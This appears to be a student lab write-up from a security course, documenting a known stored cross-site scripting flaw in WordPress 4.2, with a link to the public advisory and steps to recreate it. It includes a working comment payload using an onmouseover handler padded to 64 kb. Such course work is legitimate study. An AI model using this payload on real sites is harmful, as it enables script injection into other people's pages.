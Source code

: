 # Codepath-Week-7

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
- Summary: 
	- Tested in version: 4.2
	- Fixed in version: 4.2.1
	- Type of Vulnerability: XSS
	- Sourcecode/walkthrough: https://klikki.fi/adv/wordpress2.html
- Steps to recreate:
	- Create a comment on website with a string following the format: "<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>"
<img src="XSS - Unauthenticated Stored XSS.gif" width="800">
